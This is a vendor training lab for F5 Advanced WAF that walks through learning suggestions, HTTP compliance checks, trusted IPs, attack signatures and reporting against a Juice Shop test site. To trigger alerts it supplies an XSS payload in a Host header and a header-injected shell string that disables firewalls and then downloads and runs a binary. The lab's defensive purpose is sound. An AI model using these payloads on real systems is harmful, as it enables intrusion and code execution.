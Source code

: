Exercise 4.1: Transparent Policy 
----------------------------------------

Objective
~~~~~~~~~~
We created a transparent policy way back in Lab 1 to configure Geolocation enforcement & Layer 7 XFF inspection for IPI. We then tested out the Threat Campaign signatures in Lab 3 and now we will explore and test some of the other components that should be in scope for enforcement early on in your WAF deployment. 


- Review Learning & Blocking & Policy Building Process settings
- Implement HTTP Protocol Compliancy checks and test
- Test with a HTTP Protocol violation plus XSS attack
- Enable Server Technologies & Attack Signatures
- Review Reporting

- Estimated time for completion **30** **minutes**.

Learning & Blocking 
~~~~~~~~~~~~~~~~~~~~~
Recall from Lab 1, that we used the Rapid Deployment Policy template to create our policy and we deployed it in manual learning mode. This means as violations and/or false positives occur, the system will make suggestions to modify the policy. The admin will manually evaluate the suggestions and Approve, Ignore or Delete them.  

#. Navigate to **Security > Application Security >  Policy Building > Traffic Learning** and notice that there are no records to display. So far, all of our site traffic has been generated by a malicious script. Let's generate some real user traffic from a trusted IP address. 
#. In the Chrome browser open a new tab, click on the **OWASP Juiceshop** bookmark in the Bookmarks Toolbar and accept the certificate warning. Browse around the site and perform several actions as a real user would. 
#. In the top left of the site, click the **Hamburger Menu** and under the **Account** section, select **Login**. 

.. image:: images/ham.png
  :width: 600 px

4. Click the **Not yet a customer?** link at the bottom of the login form and proceed to create an account using "f5student@f5agility.com" for email and use the same password you've been using for the labs.

.. image:: images/customer.png
  :width: 600 px

5. Click on the Apple Juice item and leave a review and click **Submit**. 
#. Click back on the Advanced WAF GUI tab in your browser and refresh the traffic learning screen. If you navigated away or closed the tab, open a new one, login to Advanced WAF and go to: **Security > Application Security >  Policy Building > Traffic Learning**.
#. You will see many Suggestions and a **learning score** that the system assigns based on how many times it has seen an occurence and from what source. You can **Accept**, **Delete**, **Ignore** or **Export** the suggestion. 

.. NOTE:: This is where it usually starts to get a little dicey for a first-time WAF admin. Always look very carefully at the suggested action before deciding on which action to take. It is also helpful to define a whitelist so that the policy can learn quicker and from known trusted sources. You generally do not want the system learning from random and/or hostile Internet traffic and making suggestions to relax the policy.   

8. Notice that most of the learning suggestions involve enabling various HTTP protocol Compliance Checks.   
#. Find and select the suggestion for **Enable HTTP protocol compliance check - HTTP Check: No Host header in HTTP/1.1 request**. 
#. Review the **Suggested Action** and click **Accept** and **Apply Policy**. 

.. image:: images/proto.png
  :width: 600 px

11. What just happened and how do you see what changed by who and when? Audit Log of course!
#. Go to **Security > Application Security >  Audit > Log** and review the most recent actions. You can see who, what and when every component within a policy was modified. 

.. image:: images/audit.png
  :width: 600 px


13. Click on the Element Name (blue hyperlink) **No Host header in HTTP/1.1 request** This takes you to the Learning and Blocking Settings screen where the check was enabled. 
#. Notice that by default in the Rapid Deployment Policy, learning is enabled for most of the common HTTP Protocol compliancy checks. Also notice that the **Enable** checkbox next to **No Host header in HTTP/1.1 request** is now checked.  
#. Uncheck the **Learn box** for this violation then **Save** and **Apply** policy. 
#. Open a new Terminal and send the following request. This request is being sent without a host header and should now raise a violation in our Event Log rather than a learning suggestion. 

``curl -k -H 'Host:' https://juiceshop.f5agility.com/``


17. Review the Alarmed request in **Security > Event Logs > Application  > Requests**.

.. image:: images/httpviol.png
  :width: 600 px

18. To review, you just took a learning suggestion and accepted it to enable a protocol compliancy check and then you disabled future learning suggestions for this event. Violations are now alarmed in the Event Logs. 
#. Go back to **Security > Application Security >  Policy Building > Traffic Learning** You would now typically go through and enable all of the checks that the policy is recommending regarding http protocol compliance and evasion technique detection. One suggestion in particular is different and should catch your eye. It is a false positive from when we left a review and we will deal with that next. 

.. NOTE:: Remember that your policy is safely in transparent mode so accepting suggestions and enabling checks will only raise alarms and no blocking actions will occur. This is why it is very important to start off transparently until you fully understand the basics of managing a WAF policy. 


False Positive Remediation 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. You should still be at **Security > Application Security >  Policy Building > Traffic Learning** 
2. Find and select the suggestion for **Illegal method** and examine the details closely. 
3. Notice the **Suggested Action** and the requests that caused this suggestion. In this case, by Accepting the suggestion, we will be be allowing a new method of **Put** in our policy. 

.. image:: images/review.png
  :width: 600 px

4. **Accept** the suggestion and **Apply** the Policy. 
5. In a new browser tab, make sure you are logged in to JuiceShop and leave another review for **Apple Juice**. 
6.  Review the request in **Security > Event Logs > Application  > Requests**. 

.. image:: images/put.png
  :width: 600 px

.. NOTE:: If you had not accepted this suggestion and eventually went to blocking mode, the reviews for this site would be broken because Put is not a default allowed method in a Rapid Deployment Policy. Working through learning suggestions is an essential part of policy development and should occur as early as possible during software development and testing. It IS NOT best-practice to wait until the site is in production before bolting on a WAF policy as an after-thought. 

Policy Building Process
~~~~~~~~~~~~~~~~~~~~~~~~~~~

One thing you can do to greatly increase the integrity of the learning suggestions is to define trusted IP's. You can also tell the system to Only learn from trusted IP's which is a very wise thing to do if you are developing policy on an app that is exposed to untrusted or Internet traffic. 

#. Go to **Security > Application Security >  Policy Building > Learning and Blocking Settings** and expand the **Policy Building Process** section at the bottom. Here you can see settings that this particular policy is using for learning. Notice that **Trusted IP Addresses List** is empty. 
#. Click the little window/arrow icon next to **Trusted IP Addresses List** is empty.
#. This takes you to: **Security > Application Security > IP Addresses > IP Address Exceptions** Click **Create**. 
#. For IP Address: **10.0.0.0** and for Netmask: **255.0.0.0**. Check the box for **Policy Builder trusted IP** and click **Create** and **Apply Policy**.

.. image:: images/ip.png
  :width: 600 px

#. Navigate back to **Security > Application Security >  Policy Building > Learning and Blocking Settings** and expand the **Policy Building Process** section. Notice that our newly defined network is now a **Trusted IP**. This will greatly enhance the speed and quality of learning suggestions. 
#. Change the view from Basic to Advanced and review all the fine-grained configurations for the **Policy Building Process**.

.. image:: images/pbp.png
  :width: 600 px

**You now know how to define a trusted ip and configure the policy building process settings**

Burp'ing the App
~~~~~~~~~~~~~~~~
In this section we are going to use the free/community version of an excellent DAST tool; Burp. Unfortunately, the free version does not actually allow DAST but it is still an excellent tool for packet crafting and that's exactly how we are going to use it.

Accept the Remaining Learning Suggestions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Go to **Security > Application Security >  Policy Building > Traffic Learning** and select all of the remaining suggestions and click **Accept > Accept suggestions** and then **Apply Policy**. 

.. image:: images/accept.png
  :width: 600 px

HTTP Compliancy Check - Bad Host Header Value
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The **Bad Host Header Value** check is an HTTP Parser Attack and definitely something that should be implemented as part of **Good WAF Security**. It was included in the suggestions you just accepted. 

**Risk:**
If we allow bad host header values they can be used to Fuzz web servers and gather system information. Successful exploitation of this attack could allow for the execution of XSS arbitrary code.

#. Launch **Burp** from the Desktop. **Do Not click multiple times. It takes a few moments to load**. 

.. image:: images/burp.png

**DO NOT update**. 

#. Choose **Temporary Project** and click **Next** and then click **Start Burp**. 
#. Click the **Repeater** tab and paste in the following http request (**Replace password with the password you've been using all along.**) and click **Send**.
#. A popup window will appear to configure the target details. For host use: **10.1.10.145**. For port use: **443**. Check the **Use HTTPS** box. 
#. Click **Send**

|

**XSS in HOST Header**

::

  POST https://10.1.10.145/rest/user/login HTTP/1.1
  User-Agent: BabyYoda
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 38
  Host: <script>alert(document.cookie);</script>

  username=f5student&password=[password]


.. image:: images/burpreq.png
  :width: 600 px

#. Browse to **Security > Event Logs > Application > Requests** and review the alert for this Sev5 attack. Note the alert severity is much higher (5) for this attack type due to several violations occuring including HTTP protocol Violations and several XSS signatures.
#. Review all the details and then click the **3** under the **Attack Signature Detected** violation to see all of the staged XSS Attack Signatures that were triggered. 

.. image:: images/xss-out.png
  :width: 600 px



Server Technologies & Attack Signatures
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In this final exercise we will examine server technologies which allow you to automatically discover server-side frameworks, web servers and operating systems. This feature helps when the backend technologies are not well known or communicated from the Dev team.

#. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures**
#. Review the Attack Signatures that were applied during policy creation from back in Lab 1. **Generic Detection Signatures (High/Medium Accuracy)**. Notice that they are set to **Learn/Alarm/Block and Staging is enabled**. 
#. Locate Server Technologies and expand the option. Click **Enable Server Technology Detection**, click **Save** and then click the **New Window Icon** next to Server Technologies. 

.. image:: images/st.png
  :width: 600 px

#. Scroll down to **Advanced Settings > Server Technologies** and click in the box. Search for Linux since we know the server is running Linux. The system will display a box describing which new signature sets will be applied. Click **Confirm**. 

.. image:: images/ast.png
  :width: 600 px

**Make sure to Save and Apply Policy.**

#. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures** and notice the new Unix/Linux Server Technology signature sets that were added to the policy. 

.. image:: images/unix.png
  :width: 600 px

#. Click **Change** and review all of the additional Signature Sets that you can add manually add to a policy. Click **Cancel**

Framework Attacks
~~~~~~~~~~~~~~~~~~~

Back in BURP navigate to the repeater tab and adjust the payload to the following and hit go. **Replace password with the password you’ve been using all along**

|

**Framework Attack**

::

  POST https://10.1.10.145/rest/user/login HTTP/1.1
  User-Agent: ImperialProbeDroid
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
  Content-Length: 38
  Host: DarthMaul

  username=f5student&password=[password]


#. Browse to **Security > Event Logs > Application > Requests** and look for the most recent Sev5 Event. Select the event, review the violations and click the **2** under Occurrences for the Attack signature detected violation.  
#. Click the little blue **i** and review the Attack Signature Details. We can see that this was a Systems based Unix/Linux Signature in staging mode. 

.. image:: images/systems.png
  :width: 600 px

We are now alerting on attacks aimed at Server Technologies. 

Review Reporting
~~~~~~~~~~~~~~~~~~
#. Navigate to **Security > Reporting > Application > Charts** and change the View By: to **Ip Intelligence** and review the chart. 
#. Change the chart type from Absolute to **Stacked**
#. Change the View By: to **Client IP Addresses**

.. image:: images/client_ip.png
  :width: 600 px

4. Change the Advanced Filter to: **Top Alarmed URLs**. 
#. Change the Advanced Filter to: **Top attacks in the last day** and View By: to **Client Countries**. 
#. Explore addtional charts that you can generate and export. 

.. image:: images/charts.png
  :width: 600 px

7. Navigate to **Security > Overview > Application > Traffic**

.. image:: images/overview.png
  :width: 600 px

8. Go to **Security > Overview > OWASP Compliance** and review the report. As you can see there is still much to do from a best-practices App-Sec perspective. For more information check out our OWASP 111 Lab which covers these categories in detail. 

.. image:: images/owasp.png
  :width: 600 px


**This completes Lab 4**

**Congratulations! It was a long road but you made it though and now have the knowledge to go forth and start testing. Given the Advanced WAF is a proxy, you could build a Virtual Edition F5 locally on your machine and implement a number of test scenarios with no impacts to a production application. Contact your friendly neighborhood F5 Solutions Engineer for more information!! Hope to see you in the 241 Elevated WAF Protection class! Cheers!!!**




